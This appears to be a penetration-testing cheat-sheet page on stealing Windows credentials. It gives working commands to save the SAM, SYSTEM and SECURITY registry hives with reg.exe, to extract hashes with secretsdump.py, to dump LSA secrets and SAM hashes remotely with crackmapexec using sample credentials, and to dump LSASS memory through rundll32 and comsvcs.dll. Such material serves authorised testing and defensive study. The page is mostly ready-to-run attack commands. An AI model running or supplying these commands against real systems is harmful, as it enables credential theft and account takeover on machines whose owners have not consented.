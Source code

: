 # Credential Stealing

## Copying SAM Registry Hives

If we have local admin access on target, we could copy three registry SAM hives, which would help us to dump and crack hashes



| Registry Hive | Description                                                                         |
| ------------- | ----------------------------------------------------------------------------------- |
| HKLM\sam      | Hashes associated with local account passwords                                      |
| HKLM\system   | System bootkey, which is encryption/decryption key for SAM                          |
| HKLM\security | Cached credentials for domain accounts, it is not 100% needed, but would help a lot |

For dumping hives we would use reg.exe as admin

```powershell
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
The operation completed successfully.
```

### Running secretsdump.py

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCA
```

## **Remote Dumping**

### **Dumping LSA Secrets Remotely**

```bash
crackmapexec smb 13.13.13.13 --local-auth -u amogus -p 1mp0st3r --lsa
```

### Dumping SAM Remotely&#x20;

```bash
crackmapexec smb 13.13.13.13 --local-auth -u amogus -p 1mp0st3r --sam
```

## LSASS Dumping

**Rundll32.exe & Comsvcs.dll Method**

<mark style="color:red;">IMPORTANT: Anitivirus would see this as malicious activity.</mark> The point of method is that we use <mark style="color:blue;">**rundll32.exe**</mark> to call an exported function of <mark style="color:blue;">**comsvcs.dll**</mark> which also calls the **MiniDumpWriteDump** (**MiniDump**) function to dump the **LSASS** process memory to a specified directory (**C:\lsass.dmp**). But to do this we'll need a LSASS PID. with <mark style="color:blue;">**`tasklist /svc`**</mark> in **cmd** or <mark style="color:blue;">**`Get-Process lsass`**</mark> in **powershell**. With PID we could dump LSASS memory.

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 666 C:\lsass.dmp full
```
